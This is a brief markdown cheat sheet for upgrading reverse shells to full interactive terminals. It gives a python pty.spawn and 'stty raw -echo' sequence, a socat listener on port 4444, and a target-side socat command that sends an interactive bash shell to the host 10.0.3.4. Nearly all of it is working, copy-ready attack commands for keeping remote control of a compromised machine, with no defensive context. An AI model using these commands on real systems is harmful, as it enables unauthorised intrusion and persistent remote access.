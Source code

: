 # stty  
#### target's reverse shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```

#### host's shell

```
stty raw -echo
fg
```

# socat  
#### listener:

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

#### target :

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
